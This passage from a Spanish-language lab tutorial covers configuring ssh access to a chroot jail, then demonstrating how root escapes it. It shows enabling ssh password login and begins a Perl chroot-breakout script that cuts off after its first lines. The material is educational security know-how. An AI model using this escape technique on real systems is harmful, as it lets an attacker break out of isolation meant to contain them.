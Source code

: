 #### Usando chroot

Edite el archivo de configuración ssh para permitir conexiones remotas
```
vi /etc/ssh/sshd_config
```
```
# To disable tunneled clear text passwords, change to no here!
PasswordAuthentication yes
#PermitEmptyPasswords no
#PasswordAuthentication no
```

Reinicie el servicio de ssh
```
# systemctl restart sshd
```

Realice una conexión remota como el usuario jane
```
# ssh jane@127.0.0.1
```

Una vez haya accedido con ssh, observe los archivos y directorios en la raíz
```
$ cd /
$ ls -al
```

**Nota**: Los entornos **chroot** no deben ser diseñados para aislar al usuario root.

#### Escapando de chroot

A continuación se demuestra como el usuario root puede **escapar** del ambiente aislado chroot.

Existen versiones de esta prueba en lenguaje C, para lo cual se requiere que en el entorno chroot se haya instalado
el compilador de C. Esta versión usa el lenguaje perl, por tanto se requiere que la **victima** al haber creado el entorno de chroot, haya realizado la instalación de perl.

Ejecute el siguiente comando para simular que se cuenta con el compilador de perl en el ambiente chroot
```
# jk_init -v -j /home/jail perl
```

Ingrese al ambiente chroot como root ejecutando el siguiente comando

```
# chroot /home/jail
```

Verifique que se encuentra dentro del entorno de chroot listando los archivos en el directorio raíz
```
# ls /
```

Por medio de un editor de texto escriba el siguiente script
```
vi prisionbreak.pl
```
```
#!/usr/bin/perl -w
use strict;
# unchroot.pl Dec 2007
# http://pentestmonkey.net/blog/chroot-breakout-perl

# This script may be used for legal purposes only.

# Go to the root of the jail
chdir "/";

```